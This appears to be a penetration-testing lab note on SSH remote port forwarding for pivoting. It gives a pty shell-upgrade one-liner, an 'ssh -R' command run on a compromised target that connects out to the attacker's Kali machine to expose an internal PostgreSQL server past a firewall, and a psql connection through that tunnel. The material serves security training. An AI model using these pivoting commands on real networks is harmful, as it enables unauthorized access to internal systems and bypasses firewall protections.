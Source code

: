 In order to connect back to the Kali SSH server using a username and password you may have to explicity allow password-based authentication by setting `PasswordAuthentication` to yes in `/etc/ssh/sshd_config`



2. On TARGET 1

The SSH remote port forward option is `-R`, and has a very similar syntax to the local port forward option.
It also takes two socket pairs as the argument:
- the listening socket is defined first
- the forwarding socket is second

In this case, we want to listen on port 2345 on our ATTTACKER MACHINE (127.0.0.1:2345), and forward all traffic to the PostgreSQL port on TARGET 2 (10.4.50.215:5432).


```
python3 -c 'import pty; pty.spawn("/bin/bash")'

ssh -N -R [ATTACKER MACHINE loopback]:[PORT]:[TARGET 2]:5432 kali@[ATTACKER MACHINE]
# Example
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```

3.
Probe port on the loopback interface of ATTACKER MACHINE as though we're probing the PostgreSQL database port on TARGET 2 directly!
```
psql -h 127.0.0.1 -p 2345 -U postgres
```

We're now interacting with the PostgreSQL instance running on VICTIM 2 through our SSH remote port forward by connecting to port 2345 on our own ATTACKER MACHINE.

In this section, we created an SSH remote port forward to allow us to connect to an internal database server from our Kali machine. We did this while traversing a perimeter firewall, which would otherwise block inbound connections.











### SSH Remote Dynamic Port Forwarding

Creates a dynamic port forward in the remote configuration.
The SOCKS proxy port is bound to the SSH server, and traffic is forwarded from the SSH client.


Remote dynamic port forwarding has only been available since October 2017's OpenSSH 7.6

Despite this, only the OpenSSH client needs to be version 7.6 or above to use it. The server version doesn't matter.



